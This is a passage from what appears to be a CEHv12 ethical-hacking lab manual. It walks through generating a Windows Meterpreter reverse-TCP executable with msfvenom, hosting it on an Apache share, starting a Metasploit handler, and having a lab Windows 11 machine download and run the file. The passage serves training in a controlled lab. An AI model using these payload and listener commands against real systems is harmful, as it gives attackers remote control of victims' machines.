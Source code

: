 5. Type the command **msfvenom -p windows/meterpreter/reverse_tcp lhost=10.10.1.13 lport=444 -f exe >**
    **/home/attacker/Desktop/Windows.exe** and press **Enter**.

### 


6. In the previous lab, we already created a directory or shared folder (share) at the location (/var/www/html) with the required access
    permission. So, we will use the same directory or shared folder (share) to share Windows.exe with the victim machine.

```
Note: To create a new directory to share the Windows.exe file with the target machine and provide the permissions, use the below
commands:
```
```
Type mkdir /var/www/html/share and press Enter to create a shared folder
Type chmod -R 755 /var/www/html/share and press Enter
Type chown -R www-data:www-data /var/www/html/share and press Enter
```
7. Copy the payload into the shared folder by typing **cp /home/attacker/Desktop/Windows.exe /var/www/html/share/** in the
    terminal window and press **Enter**.
8. Start the Apache server by typing **service apache2 start** and press **Enter**.

### 


9. Type **msfconsole** in the terminal window and press **Enter** to launch Metasploit Framework.
10. In Metasploit type **use exploit/multi/handler** and press **Enter**.

### 


11. Now, type **set payload windows/meterpreter/reverse_tcp** and press **Enter**.
12. Type **set lhost 10.10.1.13** and press **Enter** to set lhost.
13. Type **set lport 444** and press **Enter** to set lport.
14. Now, type **run** in the Metasploit console and press **Enter**.

### 


15. Click **CEHv12 Windows 11** to switch to the **Windows 11** machine.
16. Open any web browser (here, Mozilla Firefox). In the address bar place your mouse cursor, type **[http://10.10.1.13/share](http://10.10.1.13/share)** and press
    **Enter**. As soon as you press enter, it will display the shared folder contents, as shown in the screenshot.
17. Click on **Windows.exe** to download the file.

### 


18. Once you click on the **Windows.exe** file, the **Opening Windows.exe** pop-up appears click on **Save File**.
19. Double-click the Windows.exe file. The **Open File - Security** Warning window appears; click **Run**.
